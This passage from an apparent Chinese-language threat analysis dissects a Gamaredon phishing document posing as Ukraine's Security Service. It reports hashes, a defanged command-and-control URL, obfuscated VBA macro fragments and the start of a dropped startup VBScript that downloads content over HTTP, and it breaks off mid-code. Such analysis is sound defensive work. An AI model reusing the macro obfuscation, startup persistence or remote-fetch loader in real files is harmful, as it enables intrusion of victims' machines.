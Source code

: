 [![](https://p4.ssl.qhimg.com/t01e13cb2e032207d76.png)](https://p4.ssl.qhimg.com/t01e13cb2e032207d76.png)

通过查询，我们可以得知文章内容是乌克兰语，署名是&lt;乌克兰安全局&gt;

[![](https://p2.ssl.qhimg.com/t010ed4efd9a6520533.png)](https://p2.ssl.qhimg.com/t010ed4efd9a6520533.png)

文档最上方的图案也对应了乌克兰安全局Служба безпеки України的官网图标

[![](https://p1.ssl.qhimg.com/t01f301c960562b50b3.png)](https://p1.ssl.qhimg.com/t01f301c960562b50b3.png)

而根据对Gamaredon的了解，我们也知道该组织自2013年开始，就常针对乌克兰的政府人员发起攻击，常见手法便是伪装乌克兰安全局，分发相关的钓鱼邮件，与本次攻击颇为符合。



## 注入文档分析

将原始文档注入的dot下载到本地，MD5为689fab7a016dae57300048539a4c807e

注入的dot文档内容为空，是一个宏代码利用文档：

[![](https://p2.ssl.qhimg.com/t0138631a0913853776.png)](https://p2.ssl.qhimg.com/t0138631a0913853776.png)

查看宏代码，是Gamaredon很常用的一套代码

[![](https://p3.ssl.qhimg.com/t01c028d756eb1dc0a1.png)](https://p3.ssl.qhimg.com/t01c028d756eb1dc0a1.png)

宏代码最开始创建了两个对象

分别是Wscript.Shell和Wscript.Network,用于后面的shell执行以及网络请求

<code>Dim yOer<br>
yOer = "Set WShell=CreateObject(""WSc" + "ri" + "pt.S" + "hel" + "l"")"<br>
Set DurJ = CreateObject("WScr" + "ipt.Ne" + "two" + "rk")</code>

然后通过代码创建Scripting.FileSystemObject对象以提供对文件系统的访问

`Set hIYg = CreateObject("Sc" + "rip" + "ting.Fi" + "leSy" + "stemOb" + "ject")`

然后获取当前的主机信息，拼接为一个请求字符串,用于后续的请求

请求地址为 hxxp://skrembler[.]hopto[.]org/WIN-IHN30SD7IMB_9AC9AA87/tor[.]php”

[![](https://p0.ssl.qhimg.com/t01c46222da20d2d33b.png)](https://p0.ssl.qhimg.com/t01c46222da20d2d33b.png)

宏代码执行完成后，会在%APPDATA%MicrosoftWindowsStart MenuProgramsStartup路径下释放security.vbs文件

[![](https://p3.ssl.qhimg.com/t019a4cccacae53717d.png)](https://p3.ssl.qhimg.com/t019a4cccacae53717d.png)

释放的vbs文件hash为195f3fab75ca0602a8c2053070dd1ca3

释放文件的代码格式化后如下：

```
On Error Resume Next
Dim MTYj
MTYj = DateAdd(“s”, 25, Now())
Do Until (Now() &gt; MTYj)
Loop

Function CZeq(oBIE)
On Error Resume Next
Set bkDw = CreateObject(“MSXML2.XMLHTTP”)
With bkDw
.Open “GET”, oBIE, False
.send
End With
If bkDw.Status = 200 Then
```